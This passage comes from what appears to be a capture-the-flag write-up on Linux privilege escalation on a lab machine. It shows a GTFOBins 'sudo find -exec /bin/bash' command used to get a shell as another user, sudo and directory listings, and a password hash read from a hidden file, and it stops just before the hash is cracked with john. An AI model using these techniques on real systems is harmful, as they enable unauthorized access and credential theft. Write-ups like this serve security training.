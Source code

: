 On `GTFOBINS`, we can find this info on how to exploit this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250519203911.png)

Let's do:

```
sudo -u files /usr/bin/find . -exec /bin/bash \; -quit
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250519204031.png)

There we go, let's check our privileges again:

```
files@safezone:/$ sudo -l
Matching Defaults entries for files on safezone:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User files may run the following commands on safezone:
    (yash) NOPASSWD: /usr/bin/id
```

I couldn't find any info on how to exploit this on `gtfobins`, let's leave it like that for now and proceed to check more stuff, for example, we can find this inside of `/home/files/`:

```
files@safezone:/$ ls -la /home/files
total 48
drwxrwxrwx 5 files    files    4096 May 20 07:04  .
drwxr-xr-x 4 root     root     4096 Jan 29  2021  ..
-rw------- 1 files    files       0 Mar 29  2021  .bash_history
-rw-r--r-- 1 files    files     220 Jan 29  2021  .bash_logout
-rw-r--r-- 1 files    files    3771 Jan 29  2021  .bashrc
drwx------ 2 files    files    4096 Jan 29  2021  .cache
drwx------ 3 files    files    4096 Jan 29  2021  .gnupg
drwxrwxr-x 3 files    files    4096 Jan 30  2021  .local
-rw-r--r-- 1 files    files     807 Jan 29  2021  .profile
-rw-r--r-- 1 root     root      105 Jan 29  2021 '.something#fake_can@be^here'
-rwxrwxrwx 1 root     root      112 Jan 29  2021  pass.txt
-rw-r--r-- 1 www-data www-data 5493 May 20 06:39  rev.ph
```


We got `.something#fake_can@be^here`:

```
files@safezone:~$ cat .something#fake_can@be\^here
files:$6$BUr7qnR3$v63gy9xLoNzmUC1dNRF3GWxgexFs7Bdaa2LlqIHPvjuzr6CgKfTij/UVqOcawG/eTxOQ.UralcDBS0imrvVbc.
```

We got a hash, let's crack it using john:
